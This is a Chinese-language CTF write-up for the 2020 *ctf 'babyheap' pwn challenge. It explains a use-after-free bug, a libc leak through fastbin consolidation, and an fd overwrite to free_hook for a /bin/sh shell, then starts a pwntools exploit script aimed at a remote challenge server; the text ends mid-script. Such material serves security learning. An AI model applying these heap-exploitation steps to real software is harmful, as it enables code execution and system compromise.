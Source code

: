 > 原文链接: https://www.anquanke.com//post/id/229220 


# 2020 *ctf 部分pwn writeup


                                阅读量   
                                **219714**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t01f24e09150a7d4563.png)](https://p0.ssl.qhimg.com/t01f24e09150a7d4563.png)



感谢[xmzyshypnc](https://ama2in9.top) 师傅和xxrw师傅手把手教学。

## babyheap

漏洞是一个`UAF`漏洞，程序实现了`6`个程序，`add,delete,edit,show,leave_name,show_name`，其中`add`函数限制了申请堆块的大小，`delete`函数中存在`UAF`漏洞，`leave_name`函数中申请了一个`0x400`大小的堆块。

因此这里首先申请`4`个`0x20,fastbin`，接着`leave_name`函数申请一个较大的堆块，使得`fastbin`堆块合并成`0x80`大小的`small bin`，这样就能泄漏出`libc`基址，由于`edit`的起始位置是`+8`开始的，因此再次申请的堆块大小需要覆盖三个`fastbin`，因此申请一个`0x60`大小的堆块。这样就可以满足覆写`fd`指针为`free_hook-8`和`/bin/sh`字符串两个要求。

```
# encoding=utf-8
from pwn import *

file_path = "./pwn"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    # gdb.attach(p, "b *$rebase(0xdd9)")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('52.152.231.198', 8081)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0


def add(index, size):
    p.sendlineafter("&gt;&gt; \n", "1")
    p.sendlineafter("input index\n", str(index))
    p.sendlineafter("input size\n", str(size))


def delete(index):
    p.sendlineafter("&gt;&gt; \n", "2")
    p.sendlineafter("input index\n", str(index))


def edit(index, content):
    p.sendlineafter("&gt;&gt; \n", "3")
```